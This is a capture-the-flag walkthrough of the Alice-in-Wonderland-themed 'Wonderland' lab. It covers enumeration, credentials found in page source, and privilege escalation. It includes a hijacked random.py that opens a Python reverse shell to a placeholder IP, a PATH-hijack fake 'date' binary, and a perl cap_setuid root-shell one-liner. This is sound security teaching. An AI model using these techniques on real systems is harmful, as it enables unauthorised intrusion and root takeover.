# Wonderland

##### Difficulty: [ Medium ]

**Tags:** `Linux`,  `nmap`,  `Gobuster`,  `Python library hijacking`,  `reverse engineering`,  `path manipulation`,  `Linux capabilities`,  `perl`

---

##### Written: 09/11/2021

##### IP address: 10.10.94.9

---

### [ Obtain the flag in user.txt ]

As always, we start off with a **nmap** scan on the target machine.

```
sudo nmap -sC -sV -vv -T4 -p- 10.10.94.9
```

**Results:**



Looks like we have **two** ports open:

* **Port 22** - SSH Server
* **Port 80** - HTTP Web server

Let's take a look at that HTTP Web server.



It seems that we have an Alice in wonderland themed web page.

We can run a **Gobuster** directory scan on the web server. This will help us enumerate any hidden directories.

```
gobuster dir -u http://10.10.94.9/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50
```

**Results:**



From the results, we can see some interesting directories:  **/r**, **/poem** and **/img**. Let's take a look at the **/r** directory first.

<br>

**/r directory**



Visiting **/r** brings us to another page with the text "**Keep Going**". Since this room is based on Alice in Wonderland, and Alice falls down a rabbit hole in the movie, I'm going to assume that we keep finding more hidden directories from here.

We run another Gobuster scan on this specific directory.

```
gobuster dir -u http://10.10.94.9/r/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50
```

**Results:**



And we have another interesting directory: **/a**

<br>

**/r/a directory**



From here, I figured that we can keep adding on more characters into the URL, eventually forming the word '**rabbit**'

```
http://10.10.94.9/r
http://10.10.94.9/r/a
http://10.10.94.9/r/a/b
http://10.10.94.9/r/a/b/b
http://10.10.94.9/r/a/b/b/i
http://10.10.94.9/r/a/b/b/i/t
```

<br>

**/r/a/b/b/i/t directory**



Sure enough, **/r/a/b/b/i/t** brings us to a valid web page as well. Looking at the source code of the page:



We can find a set of credentials that will allow us to log into the SSH Server as the user 'alice'.

\> **alice:HowDothTheLittleCrocodileImproveHisShiningTail**

<br>



Now that we have gained an initial foothold into our target machine, we can begin exploring.

Let's first check out the **home directory** of alice:



We have two files: **root.txt** and **walrus_and_the_carpenter.py**. However, there is no **user.txt** file to be found.

As expected, we also do not have the permissions to open **root.txt** as it is owned by root.

<br>

From the **/home** directory, we can see that there are a few other users:



Unfortunately, we cannot access their home directories.

<br>

Let's now check our **sudo privileges**. We can do this with the `sudo -l` command.



Interesting! It seems that we can run the **walrus_and_the_carpenter.py** script as the user **rabbit**.

Let's go ahead and take a look at the script.

**walrus_and_the_carpenter.py**

```python
import random
poem = """The sun was shining on the sea,
Shining with all his might:
He did his very best to make
The billows smooth and bright —
And this was odd, because it was
The middle of the night.

The moon was shining sulkily,
Because she thought the sun
Had got no business to be there
After the day was done —
"It’s very rude of him," she said,
"To come and spoil the fun!"

The sea was wet as wet could be,
The sands were dry as dry.
You could not see a cloud, because
No cloud was in the sky:
No birds were flying over head —
There were no birds to fly.

The Walrus and the Carpenter
Were walking close at hand;
They wept like anything to see
Such quantities of sand:
"If this were only cleared away,"
They said, "it would be grand!"

"If seven maids with seven mops
Swept it for half a year,
Do you suppose," the Walrus said,
"That they could get it clear?"
"I doubt it," said the Carpenter,
And shed a bitter tear.

"O Oysters, come and walk with us!"
The Walrus did beseech.
"A pleasant walk, a pleasant talk,
Along the briny beach:
We cannot do with more than four,
To give a hand to each."

The eldest Oyster looked at him.
But never a word he said:
The eldest Oyster winked his eye,
And shook his heavy head —
Meaning to say he did not choose
To leave the oyster-bed.

But four young oysters hurried up,
All eager for the treat:
Their coats were brushed, their faces washed,
Their shoes were clean and neat —
And this was odd, because, you know,
They hadn’t any feet.

Four other Oysters followed them,
And yet another four;
And thick and fast they came at last,
And more, and more, and more —
All hopping through the frothy waves,
And scrambling to the shore.

The Walrus and the Carpenter
Walked on a mile or so,
And then they rested on a rock
Conveniently low:
And all the little Oysters stood
And waited in a row.

"The time has come," the Walrus said,
"To talk of many things:
Of shoes — and ships — and sealing-wax —
Of cabbages — and kings —
And why the sea is boiling hot —
And whether pigs have wings."

"But wait a bit," the Oysters cried,
"Before we have our chat;
For some of us are out of breath,
And all of us are fat!"
"No hurry!" said the Carpenter.
They thanked him much for that.

"A loaf of bread," the Walrus said,
"Is what we chiefly need:
Pepper and vinegar besides
Are very good indeed —
Now if you’re ready Oysters dear,
We can begin to feed."

"But not on us!" the Oysters cried,
Turning a little blue,
"After such kindness, that would be
A dismal thing to do!"
"The night is fine," the Walrus said
"Do you admire the view?

"It was so kind of you to come!
And you are very nice!"
The Carpenter said nothing but
"Cut us another slice:
I wish you were not quite so deaf —
I’ve had to ask you twice!"

"It seems a shame," the Walrus said,
"To play them such a trick,
After we’ve brought them out so far,
And made them trot so quick!"
The Carpenter said nothing but
"The butter’s spread too thick!"

"I weep for you," the Walrus said.
"I deeply sympathize."
With sobs and tears he sorted out
Those of the largest size.
Holding his pocket handkerchief
Before his streaming eyes.

"O Oysters," said the Carpenter.
"You’ve had a pleasant run!
Shall we be trotting home again?"
But answer came there none —
And that was scarcely odd, because
They’d eaten every one."""

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```

The script contains a really long string. It then uses the **random** Python library to print out a few random lines from the string.

<br>

What's really important here is the use of the Python library: **random**. After doing some research online, I found a method to potentially escalate our privileges using a technique called **Python Library Hijacking**.

A great article on this topic can be found here: https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8 

Essentially, instead of targeting python scripts directly, we can target the libraries that they import instead. 

<br>

We first use the following command to check our **PYTHONPATH**.

```
python3 -c 'import sys; print(sys.path)'
```

**Results:**



The PYTHONPATH tells us which directories Python will look into when using imported libraries. It will also prioritize the directories that are **higher** up on the list. 

For example, if we have the following PYTHONPATH:

```
['/usr/lib/python3.6', '/usr/lib/python3.6/lib-dynload', '/usr/local/lib/python3.6/dist-packages', '/usr/lib/python3/dist-packages']
```

Then Python will use the libraries found in the **'/usr/lib/python3.6'** directory before any of the other directories.

<br>

In our case, there is something very interesting about our PYTHONPATH:



The **''** actually signifies the current directory that the python script is in. Since the **''** entry is the highest on the list, it holds the most priority and Python will actually look at the current directory to check for any imported library files.

With that in mind, we can create our own **random.py** file in the same directory as **walrus_and_the_carpenter.py**, which will open up a reverse shell instead of doing what the random library normally does. We'll use the reverse shell from: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python

<br>

We create **random.py** with a function called **'choice'**, as this function was used in **walrus_and_the_carpenter.py**.

```python
import socket,os,pty

def choice(a):
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("YOUR_IP_HERE",4444))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    pty.spawn("/bin/sh")
```

Next, we set up our netcat listener.

Finally, we run **walrus_and_the_carpenter.py** with `sudo -u`.

```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```



With that, we have gained access into rabbit's account!

<br>

In Rabbit's home directory, we have an interesting binary file: **teaParty**





teaParty is an ELF binary with the **SUID** and **SGID** bit set.

<br>



Running teaParty gives us a bunch of text, followed by a user prompt. I tried inputting different words, but there would always be a segmentation fault.

<br>

I decided to reverse-engineer the binary file using **Binary Ninja**, which will allow us to get a pretty accurate high-level representation of the code. (https://cloud.binary.ninja/)

After downloading the binary onto my local machine and loading it into Binary Ninja, I get the following results:





As we can see, the binary runs the **date** command.

However, it doesn't use the **absolute path** of the date binary! This is great for us as this means we can do some **path manipulation** to spawn a shell.

To do so, we first create a new binary called **date** in a directory of our choice. Remember to make it executable by anyone.

```
echo '/bin/bash' > /tmp/date
chmod 777 /tmp/date
```

Next, we have to export the chosen directory into our **PATH** variable.

```
export PATH=$PATH:/tmp
```

We can use `echo $PATH` to verify that our directory has been added.



Now, when the **date** command is called, the **/tmp** directory will be checked first for the date binary. This means that our own date binary will be executed, which will then spawn us a shell.

With that, we just have to run the teaParty binary again. As the SUID bit is set, the binary will run as a different user.



And we have opened a shell as the user **hatter**!

<br>

Hatter's home directory contains a **password.txt** file:



Looks like we have a password. I tried using this password to log into root, but it didn't work. I later found out that this is the password to hatter's account - **WhyIsARavenLikeAWritingDesk?**

---

*At this point, I was extremely stuck as I did not know how I could escalate my privileges. Hatter had no sudo privileges, and I was unable to find any other potential attack vectors. I even used automated privesc tools like linpeas, but I still did not know how to proceed. After a long time, I decided to just refer to a writeup online for hints. The writeup said to look out for **linux capabilities**.* 

---

While doing my research on capabilities, I came across this very useful article:

https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/

The article goes into great detail on what capabilities are and how they differ from SUID. In essence, capabilities allow us to set very specific privileges to executable files, instead of SUID, which is binary in nature (either the file is privileged or not).



The table above shows some common capabilities. The one that is especially important to us is the **CAP_SETUID** capability, as this allows for the changing of **UID**, essentially allowing for a non-privileged user to change their UID to root.

To check which files have capabilities enabled, we use:

```
getcap -r / 2>/dev/null
```

*-r option allows for recursive search*



From the results, we can see that **/usr/bin/perl** has the **cap_setuid+ep** capability! This means that it can be used to spawn a shell with root privileges (as its owner is root).

The article actually provides the method to exploit the perl program as well.

All we have to do navigate to **/usr/bin** and run:

```
./perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
```



With that, we have successfully escalated our privileges and gained root!

<br>

The user flag can be found in the **root home directory**.



---

### [ Escalate your privileges, what is the flag in root.txt? ]

The root flag can be found in **alice's home directory**.



---

### A lil' Extra sumthin: 

### [ Steganography with the white rabbit ]

One of the images in the **/img** directory on the HTTP web server actually contains some embed data!

**/img**:



The image is **white_rabbit_1.jpg**.

We can use **steghide** to try and extract the data.

```
steghide extract -sf white_rabbit_1.jpg
```



Uh oh, we need a passphrase.

Let's try inputting an empty password.



It worked! :smile: 

**Contents of hint.txt**



